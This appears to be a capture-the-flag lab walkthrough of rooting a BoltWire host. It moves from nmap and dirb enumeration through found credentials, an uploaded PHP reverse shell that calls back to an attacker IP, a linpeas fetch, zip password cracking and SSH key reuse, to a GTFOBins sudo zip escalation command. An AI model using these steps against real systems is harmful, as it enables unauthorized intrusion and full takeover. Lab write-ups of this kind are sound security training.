# Initial Nmap Scan Results

After conducting an initial Nmap scan, I identified the following open ports on the target host (`172.16.137.132`):

```bash
└─$ nmap -T4 -p 22,80,111,2049,8080,36451,41323,44903,49363 -A 172.16.137.132
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-18 11:36 EDT
Nmap scan report for 172.16.137.132
Host is up (0.00032s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Bolt - Installation error
|_http-server-header: Apache/2.4.38 (Debian)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      37293/udp   mountd
|   100005  1,2,3      40291/tcp6  mountd
|   100005  1,2,3      49363/tcp   mountd
|   100005  1,2,3      55028/udp6  mountd
|   100021  1,3,4      38037/tcp6  nlockmgr
|   100021  1,3,4      44903/tcp   nlockmgr
|   100021  1,3,4      46980/udp   nlockmgr
|   100021  1,3,4      55687/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6   nfs_acl
|   100227  3           2049/udp    nfs_acl
|_  100227  3           2049/udp6   nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported: CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
|_http-server-header: Apache/2.4.38 (Debian)
36451/tcp open  mountd   1-3 (RPC #100005)
41323/tcp open  mountd   1-3 (RPC #100005)
44903/tcp open  nlockmgr 1-4 (RPC #100021)
49363/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 00:0C:29:0F:EF:FB (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 172.16.137.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 8.91 seconds
```

**Summary of Open Ports:**

- **22**: SSH (OpenSSH 7.9p1 Debian)
- **80**: HTTP (Apache 2.4.38)
- **8080**: HTTP (Apache 2.4.38)
- **2049**: NFS share

# Directory Bruteforcing Results

After scanning the website using `dirb`, I discovered multiple files on port 8080:



Among them, there is a `member.admin` file located in the `/dev/pages` directory:



Upon downloading this file, we found the following contents:



Additionally, there is a `member.thisisatest` file:



From the information gathered, we can infer two potential usernames and passwords:

```
admin:I_love_java
thisisatest:thisisatest
```

Attempting to log in with these credentials, I found that the admin login was successful:



The application version in use is BoltWire 6.03:



If I had identified the BoltWire version earlier through enumeration, I could have retrieved the admin password without needing the `member.admin` file, utilizing the following vulnerability:

[CVE-2023-46501](https://github.com/Cyber-Wo0dy/CVE-2023-46501)

# Gaining Elevated Access

With admin access, I can create new pages that will be uploaded to `/dev/pages`. In this instance, we will upload a PHP reverse shell [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell):

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
// ...
$ip = '172.16.137.128';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
// ...
?>
```

When creating the shell, it will be uploaded to `/dev/pages`:



After setting up a listener on the host and triggering the new `shell.php` file, we successfully received a reverse shell as the `www-data` user:



# Privilege Escalation

To proceed with privilege escalation, we can utilize `linpeas`. Executing `ls /home`, we discover a user named `jeanpaul`:



To facilitate this, we will create an HTTP server on our attacker machine to allow us to `wget` the `linpeas.sh` script:



After successfully downloading the script:



Running `linpeas` reveals a valuable piece of information: there is a `/srv/nfs` folder containing a `save.zip` file in the NFS share. We can retrieve it using `nc`:



The file is now available:



Inside `save.zip`, we find it is password-protected and contains `note.txt` and an SSH key:



I can attempt to crack the password using `fcrackzip` with the following command:

```bash
fcrackzip -u -D -p /usr/share/wordlist/rockyou.txt save.zip
```

After executing the command, we successfully cracked the password, which is `java101`:



I also attempted to use the SSH key with the `jeanpaul` user, as


Next, we attempted to use the SSH key we had found with the `jeanpaul` user, as the note was signed with "jp." However, when prompted for the `id_rsa` password, I first tried `java101`, but it didn't work. I then recalled another password I had obtained earlier: `I_love_java`, and this time it was successful!

```bash
chmod 400 id_rsa
ssh -i id_rsa jeanpaul@172.16.137.132
```

shown below:



After gaining access, I checked the `.bash_history` file and noticed that while the user had cleaned it up, they left a command for `sudo -l`. Let's run that next.



The output revealed that we can run `/usr/bin/zip` as sudo. Before proceeding, I decided to run `linpeas.sh` to look for any other potential privilege escalation paths.

As we observed, the `zip` command is available for use with sudo privileges.



I found a privilege escalation technique using `zip` at [GTFOBins](https://gtfobins.github.io/gtfobins/zip/). The command is as follows:

```bash
TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```

After executing the command successfully, we have now rooted the box!


